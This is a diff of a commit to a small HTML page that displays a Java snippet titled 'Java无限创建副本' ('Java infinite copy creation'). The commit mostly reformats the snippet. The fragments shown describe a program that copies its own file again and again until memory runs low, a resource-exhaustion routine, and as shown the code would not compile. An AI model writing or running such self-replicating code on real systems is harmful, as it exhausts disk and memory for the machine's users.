

Before and after one commit to yu555quan/nnnkkk, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 1018-1951 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -10,13 +10,14 @@
             width: 100%; /* 确保虚线宽度占满整个容器 */
             margin: 20px 0; /* 增大虚线之间的间距 */
         }
-        .java-code {
+        pre.java-code {
             font-family: monospace; /* 设置代码字体 */
             white-space: pre-wrap; /* 保留代码的换行和空格 */
             margin: 10px 0; /* 设置代码块的上下间距 */
             background-color: #f0f0f0; /* 设置代码块背景颜色 */
             padding: 10px; /* 设置代码块内边距 */
             border: 1px solid #ccc; /* 设置代码块边框 */
+            overflow-x: auto; /* 添加横向滚动条 */
         }
     </style>
 </head>
@@ -59,12 +60,13 @@
     <div class="line"></div>
     <div class="line"></div>
     <div class="line"></div>
+    <div class="line"></div>
 
     <!-- Java代码前面的文字 -->
     <p style="font-weight: bold; color: #333;">Java无限创建副本</p>
 
     <!-- Java代码 -->
-    <div class="java-code">
+    <pre class="java-code">
 import java.io.*;
 import java.util.concurrent.ExecutorService;
 import java.util.concurrent.Executors;
@@ -78,20 +80,18 @@
         String currentFilePath = new File(currentPath).getAbsolutePath();
 
         ExecutorService executorService = Executors.newFixedThreadPool(THREAD_COUNT);
-
         int copyCount = 0;
         while (isMemoryAvailable()) {
             copyCount++;
-                    executorService.submit(() -> createCopy(currentFilePath, copyCount));
+            executorService.submit(() -&gt; createCopy(currentFilePath, copyCount));
         }
-
         executorService.shutdown();
     }
 
     private static boolean isMemoryAvailable() {
         Runtime runtime = Runtime.getRuntime();
         long availableMemory = runtime.maxMemory() - runtime.totalMemory() + runtime.freeMemory();
-                return availableMemory >= MIN_FREE_MEMORY;
+        return availableMemory &gt;= MIN_FREE_MEMORY;
     }
 
     private static void createCopy(String currentFilePath, int copyCount) {
@@ -102,7 +102,7 @@
 
                 byte[] buffer = new byte[1024];
                 int length;
-                        while ((length = inputStream.read(buffer)) > 0) {
+                while ((length = inputStream.read(buffer)) &gt; 0) {
                     outputStream.write(buffer, 0, length);
                 }
             }
@@ -112,6 +112,6 @@
         }
     }
 }
-    </div>
+    </pre>
 </body>
 </html>
```
Lines whose indentation alone changed are shown as unchanged.
